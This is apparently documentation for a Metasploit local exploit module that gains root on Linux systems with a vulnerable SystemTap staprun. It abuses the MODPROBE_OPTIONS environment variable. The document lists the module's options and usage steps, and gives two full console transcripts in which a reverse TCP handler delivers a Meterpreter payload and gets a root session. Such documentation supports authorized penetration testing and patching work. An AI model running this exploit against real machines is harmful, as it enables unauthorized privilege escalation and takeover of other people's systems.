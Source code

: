## Description

  This module attempts to gain root privileges by exploiting a
  vulnerability in the `staprun` executable included with SystemTap
  version 1.3.

  The `staprun` executable does not clear environment variables prior to
  executing `modprobe`, allowing an arbitrary configuration file to be
  specified in the `MODPROBE_OPTIONS` environment variable, resulting
  in arbitrary command execution with root privileges.


## Vulnerable Application

  This module has been tested successfully on:

  * systemtap 1.2-1.fc13-i686 on Fedora 13 (i686)
  * systemtap 1.1-3.el5 on RHEL 5.5 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/systemtap_modprobe_options_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **STAPRUN_PATH**

  Path to staprun executable (default: `/usr/bin/staprun`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Red Hat Enterprise Linux 5.5 (x64)

  ```
  msf5 > use exploit/linux/local/systemtap_modprobe_options_priv_esc
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] /usr/bin/staprun is executable
  [+] /usr/bin/staprun is setuid
  [*] Writing '/tmp/.rX9IoM53YEb92' (207 bytes) ...
  [*] Writing '/tmp/.rX9IoM53YEb92.conf' (23 bytes) ...
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.202
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.202:52074) at 2019-04-18 12:50:56 -0400
  [+] Deleted /tmp/.rX9IoM53YEb92
  [+] Deleted /tmp/.rX9IoM53YEb92.conf
  ERROR: Unable to canonicalize path "/lib/modules/2.6.18-194.el5/systemtap/As5A2hFpvQ2L.ko": No such file or directory
  Retrying, after attempted removal of module As5A2hFpvQ2L (rc -1)
  ERROR: Unable to canonicalize path "/lib/modules/2.6.18-194.el5/systemtap/As5A2hFpvQ2L.ko": No such file or directory
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo 
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 5 (Linux 2.6.18-194.el5)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

### Fedora 13 (x86)

  ```
  msf5 > use exploit/linux/local/systemtap_modprobe_options_priv_esc
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] /usr/bin/staprun is executable
  [+] /usr/bin/staprun is setuid
  [*] Writing '/tmp/.otCyN6cAa7aUo0v' (207 bytes) ...
  [*] Writing '/tmp/.otCyN6cAa7aUo0v.conf' (23 bytes) ...
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.138
  ERROR: Unable to canonicalize path "/lib/modules/2.6.33.3-85.fc13.i686.PAE/systemtap/l0rDp93O8f.ko": No such file or directory
  Retrying, after attempted removal of module l0rDp93O8f (rc -1)
  ERROR: Unable to canonicalize path "/lib/modules/2.6.33.3-85.fc13.i686.PAE/systemtap/l0rDp93O8f.ko": No such file or directory
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.138:33541) at 2019-04-19 07:26:46 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : fedora13.localdomain
  OS           : Fedora 13 (Linux 2.6.33.3-85.fc13.i686.PAE)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

